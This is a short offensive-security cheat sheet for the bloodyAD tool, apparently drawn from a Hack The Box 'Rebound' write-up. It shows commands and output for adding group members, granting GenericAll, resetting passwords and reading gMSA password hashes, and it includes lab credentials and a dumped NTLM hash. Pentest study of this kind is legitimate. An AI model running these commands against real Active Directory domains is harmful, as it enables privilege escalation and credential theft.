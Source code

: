 ## # `BloodyAD` -

[BloodyAD](https://github.com/CravateRouge/bloodyAD) is an Active Directory Privilege Escalation Framework.

- <mark style="background: #3D7EFFA6;">AddMember</mark> :

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `Self`, `AllExtendedRights` or `Self-Membership`, over the target group.

Usuage :

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" add groupMember $TargetGroup $TargetUser
```

```bash
oxdf@hacky$ bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add groupMember ServiceMGMT oorend
[+] oorend added to ServiceMGMT
```

- <mark style="background: #FFB86CA6;">Generic All</mark> :

```bash
oxdf@hacky$ bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
[+] oorend has now GenericAll on OU=SERVICE USERS,DC=REBOUND,DC=HTB
```

In above with full control rights over the ServiceMGMT OU, you  can give user oorend `GENERICALL` over the users in the OU.

- <mark style="background: #D2B3FFA6;">Change Password</mark> :

```bash
oxdf@hacky$ bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'LeetPassword123!'
[+] Password changed successfully!
```

- <mark style="background: #E632B3A6;">ReadGMSAPassword</mark> :

It can be carried out when controlling an object that has enough permissions listed in the target gMSA account's `msDS-GroupMSAMembership` attribute's DACL.

```bash
oxdf@hacky$ bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword

distinguishedName: CN=delegator,CN=Managed Service Accounts,DC=rebound,DC=htb
msDS-ManagedPassword.NTLM: aad3b435b51404eeaad3b435b51404ee:e1630b0e18242439a50e9d8b5f5b7524
msDS-ManagedPassword.B64ENCODED: 5bJ7n8t25Xmw187W3VrZocgFCr8VnedxIVdiml6khM2WAeex8N5QleqK4/TcRNUDQ8flaPX1lbwNF+GRtnHQMEM9WLY22DgoU/ZDOfYlHp/iSFjCEtRtRobUf+Mr1bbAiAY9+5Xb6nco/v8kWT4LE9hDH3bkfSe4TOJEVpHURKg5vJqEfL8hTviel0YNdJBF0VsMWJ1pWtSjwuW2bvncgqaMhol6i9Qpn0ADf7srMqMR5XXdVHxCcAyr08Q89fhlyTKOb4YfhnQvHGROtsUp0ySKNHLTv4bYDy6u2J/YBefaK6LraH+RwP/yRodXQTvD3wzDAmjx/QqRfEy7j1hL9A==
```

